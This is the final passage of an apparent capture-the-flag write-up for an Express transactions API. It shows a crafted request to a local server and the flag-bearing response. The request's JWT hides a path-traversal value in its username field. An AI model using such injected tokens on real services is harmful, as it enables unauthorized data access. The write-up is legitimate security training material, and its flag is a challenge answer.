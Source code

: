 However we are not interested in the id, since we inserted at transaction `41` the flag:
We access it through the `GET` request:

```
GET http://127.0.0.1:3000/api/transactions/41 HTTP/1.1
authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6WyJzcHJpdHovLi4vLi4vLi4vaGVhbHRoIyIsIjo6dHhJZCJdLCJpYXQiOjE2MzU3Mjc2OTZ9.j__LeYofEKnK94JA-0kW9-u8ZLlrX7AyQfci4a4Q1Pk
...
Connection: close
```

Whose response contains the flag:
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 82
...
Connection: close

{"id":"41","username":"flag{finally_i_can_invest_in_js}","asset":"xxx","amount":1}
```

`flag{finally_i_can_invest_in_js}`

gg. aMan
